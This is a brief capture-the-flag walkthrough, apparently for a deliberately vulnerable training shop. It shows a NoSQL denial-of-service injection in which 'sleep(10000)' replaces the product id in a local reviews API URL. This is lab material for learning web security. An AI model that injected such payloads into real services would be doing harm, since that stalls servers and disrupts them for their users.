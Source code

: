 # NoSQL Dos
## Challenge: Let the server sleep for some time
## Category: Injection

1. When viewing product reviews observe the API call `http://127.0.0.1:3000/rest/products/1/reviews`

2. Modify to inject sleep command `http://127.0.0.1:3000/rest/products/sleep(10000)/reviews`